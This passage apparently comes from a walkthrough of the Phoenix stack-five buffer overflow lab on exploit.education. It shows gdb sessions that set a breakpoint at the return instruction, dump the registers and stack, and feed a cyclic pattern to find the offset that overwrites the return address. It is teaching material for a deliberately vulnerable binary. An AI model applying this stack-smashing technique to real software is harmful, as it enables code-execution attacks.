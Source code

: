 Put a breakpoint before returning to caller address:
```
(gdb) b *0x00000000004005a3
Breakpoint 1 at 0x4005a3

(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/i $rip
>x/8wx $rsp
>end

(gdb) r
Starting program: /opt/phoenix/amd64/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
=> 0x4005a3 <start_level+22>:   ret
0x7fffffffe4e8: 0x004005c7      0x00000000      0xffffe558      0x00007fff
0x7fffffffe4f8: 0x00000000      0x00000002      0x00000002      0x00000000

(gdb) info registers
rax            0x7fffffffe460   140737488348256
rbx            0x7fffffffe558   140737488348504
rcx            0x8080808080808080       -9187201950435737472
rdx            0x7fffffffe4bf   140737488348351
rsi            0xfefefefefefefeff       -72340172838076673
rdi            0x7fffffffe464   140737488348260
rbp            0x7fffffffe500   0x7fffffffe500
rsp            0x7fffffffe4e8   0x7fffffffe4e8
r8             0x7fffffffe460   140737488348256
r9             0x7fffffffe4bf   140737488348351
r10            0x1      1
r11            0x246    582
r12            0x7fffffffe570   140737488348528
r13            0x4005a4 4195748
r14            0x0      0
r15            0x0      0
rip            0x4005a3 0x4005a3 <start_level+22>
eflags         0x202    [ IF ]
cs             0x33     51
ss             0x2b     43
ds             0x0      0
es             0x0      0
fs             0x0      0
gs             0x0      0
```

The top of the stack is located at `0x7fffffffe4e8`.

```
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/phoenix/amd64/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGHHHHHHHHHHHHIIIIIIIIJJJJJJJJKKKKKKKKLLLLLLLLMMMMMMMMNNNNNNNNOOOOOOOOPPPPPPPPQQQQQQQQRRRRRRRRSSSSSSSSTTTTTTTT

Program received signal SIGSEGV, Segmentation fault.
=> 0x4005a3 <start_level+22>:   ret
0x7fffffffe4e8: 0x52525151      0x52525252      0x53535252      0x53535353
0x7fffffffe4f8: 0x54545353      0x54545454      0x00005454      0x00000000
0x00000000004005a3 in start_level ()
```
